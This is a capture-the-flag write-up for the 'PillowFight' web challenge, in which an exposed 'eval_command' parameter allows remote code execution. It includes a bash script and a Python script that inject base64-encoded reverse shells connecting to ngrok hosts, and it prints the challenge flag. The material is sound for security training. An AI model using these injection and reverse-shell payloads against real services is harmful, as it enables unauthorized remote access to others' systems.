 ## Name: PillowFight
#### Author: @HuskyHacks
#### Category: Web
#### Difficulty: N/D
#### Description: PillowFight uses advanced AI/MLRegressionLearning* to combine two images of your choosing
*note to investors this is not techically true at the moment we're using a python library but please give us money and we'll deliver it we promise.

## Procedure
The website ask for two png file to merge, for this it uses Python Pillow 8.4.0.

![Screenshot 2024-10-25 at 1 30 11 PM](https://github.com/user-attachments/assets/1a5f138c-4531-47b5-a0d1-60ae10e5c71c)

The API documentation we can see the path ```combine``` this allow only ```http POST request```, this ask for ```image1```, ```image2``` but has another interesting input ```eval_command``` this allows us to execute an RCE.
![Screenshot 2024-10-25 at 3 11 54 PM](https://github.com/user-attachments/assets/1e6821bb-64f1-4484-bd11-73f0a661c7df)

we can get aur shell with the following bash script, we need to use ngrok to get the shell
```
#!/bin/bash

revshell=$(echo -n "sh -i >& /dev/tcp/2.tcp.ngrok.io/18745 0>&1"|base64)
payload="__import__('os').system('echo $revshell| base64 -d | bash')"
echo "payload = $payload"

curl -X POST "http://challenge.ctf.games:32742/combine" \
-H  "accept: image/png" -H  "Content-Type: multipart/form-data" \
-F "image1=@image.png;type=image/png" -F "image2=@image.png;type=image/png" \
-F "eval_command=$payload"

```

We have already ```root``` permission, so just need to read our flag.txt file.
![Screenshot 2024-10-25 at 3 13 02 PM](https://github.com/user-attachments/assets/d31bec9a-c1b7-4b78-a140-3d58137e3203)

![Screenshot 2024-10-25 at 3 13 28 PM](https://github.com/user-attachments/assets/091f3c11-c8e1-4150-a12c-1aa232642993)


flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}


###Bonus
Another way to get the shell but with a python script
```
import requests

url = "http://challenge.ctf.games:30550/combine"

file_png = open('image.png', 'rb').read()
files = {
    "image1": file_png,
    "image2": file_png
}

eval_command2 = f"__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3Aubmdyb2suaW8vMTA1NzIgMD4mMQ== | base64 -d | bash')"

data= {
    "eval_command": eval_command2
}

res = requests.post(url,files=files,data=data)
print(res.text)
```

